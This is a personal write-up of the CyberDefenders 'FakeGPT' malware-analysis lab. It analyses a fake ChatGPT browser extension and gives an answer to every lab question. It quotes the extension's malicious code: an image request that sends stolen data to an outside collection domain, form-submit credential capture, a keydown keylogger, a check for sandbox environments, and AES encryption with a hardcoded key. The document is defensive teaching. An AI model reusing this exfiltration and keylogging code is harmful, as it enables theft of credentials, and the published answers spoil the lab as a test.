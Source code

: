 ```yaml
---
author: Ricard Alcaraz
title: FakeGPT Lab - CyberDefenders
tags:
  - Cybersecurity
  - Blue Team
  - CyberDefenders
  - Malware Analysis
languages:
  - malwareanalysis
  - javascript
  - cyberchef
image:
  url: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
  alt: fake gpt image
description: My notes about FakeGPT Lab - CyberDefenders
pubDate: 2025-08-27T17:47:00.000+02:00
heroImage: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
---
```

## Scenario
Your cybersecurity team has been alerted to suspicious activity on your organization's network. Several employees reported unusual behavior in their browsers after installing what they believed to be a helpful browser extension named "ChatGPT". However, strange things started happening: accounts were being compromised, and sensitive information appeared to be leaking.

Your task is to perform a thorough analysis of this extension identify its malicious components.

## Documents Provided
- app.js
- crypto.js
- img.GIF
- loader.js
- manifest.json
- ui.html

## Q1: Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?

We have several files to check, the ones I looked at first where the ones that could potentially have some sort of obscure target URLs.
Looking at app.js I found this:
```javascript
const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```
When I saw the "==" at the end of the string I thought about one particular encoding, I used CyberChef and the result was `www.facebook.com`, so we just found the encoding method.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Base64
  </div>
</details>

## Q2: Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?

I found it in the previous question by decoding the Base64 string.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    www.facebook.com
  </div>
</details>

 ## Q3: Which type of HTML element is utilized by the extension to send stolen data?

Here I was looking for for something related to sending data, it was not hard since the functions have a good naming. We can take a look at the function `sendToServer` and we will find the element used to send data.
```javascript
function sendToServer(encryptedData) {
  var img = new Image();
  img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
  document.body.appendChild(img);
}
```

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    &#60;img>
  </div>
</details>

## Q4: What is the first specific condition in the code that triggers the extension to deactivate itself?

Now we should check the other `.js` files, because `app.js` doesn't seem to have anything related. Checking `loader.js` we can see again a little help from the developer.

```javascript
if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
  alert("Virtual environment detected. Extension will disable itself.");
  chrome.runtime.onMessage.addListener(() => { return false; });
}
```
This alert explains that it will disable itself, if the condition is fullfilled. The condition that has to be fullfilled is one or the other separated by the or "||", in this case the question asks for the first condition.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    navigator.plugins.length === 0
  </div>
</details>

## Q5: Which event does the extension capture to track user input submitted through forms?

I had to comeback to `app.js`, now looking for an event and a form. And I found this part:
```javascript
document.addEventListener('submit', function(event) {
  let form = event.target;
  let formData = new FormData(form);
  let username = formData.get('username') || formData.get('email');
  let password = formData.get('password');
  ...
```
The event that the extension captures is `submit` to track the user input through the form, that has two inputs, an user (or email) and a password, and if both are filled it will call the function `exfiltrateCredentials` with both parameters.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    submit
  </div>
</details>

## Q6: Which API or method does the extension use to capture and monitor user keystrokes?

In the same file `app.js` just after the section of the code I previously mentioned we can see another event capture:
```javascript
document.addEventListener('keydown', function(event) {
  var key = event.key;
  exfiltrateData('keystroke', key);
});
```
In this case a `keydown` event that calls to the function `exfiltrateData`.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    keydown
  </div>
</details>

## Q7: What is the domain where the extension transmits the exfiltrated data?

We already know this information from the question **Q3** where I shared the piece of code of the function `sendToServer`.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Mo.Elshaheedy.com
  </div>
</details>

## Q8: Which function in the code is used to exfiltrate user credentials, including the username and password?

Also I mentioned this function in the **Q5** so coming back to that piece of code will give us the information, care with the final ";" maybe in JS is not needed but it is for the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    exfiltrateCredentials(username, password);
  </div>
</details>

## Q9: Which encryption algorithm is applied to secure the data before sending?

Now, we should check for anything related to encryption algorithms, in the same file we can see a function with the name `encryptPayload` which seems related to the question, taking a look at it it uses the library `CryptoJS`, and now we can check where the `.encrypt()` is used. In this case we can see this:
```javascript
    const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
```
So the encryption algorithm is AES, and also we can see that is using custom key and IV, where the key is `SuperSecretKey123` and a randomly generated IV.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    AES
  </div>
</details>

## Q10: What does the extension access to store or manipulate session-related data and authentication information?

We have to take a look to another file to get this one, in this case it's interesting to take a look at `manifest.json` in this configuration file we can see a parameter about the `permissions`:
```json
"permissions": [
  "tabs",
  "http://*/*",
  "https://*/*",
  "storage",
  "webRequest",
  "webRequestBlocking",
  "cookies"
  ]
```

And one that seems related to the question is the value which is a session-related data and authentication information, so this is the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    cookies
  </div>
</details>

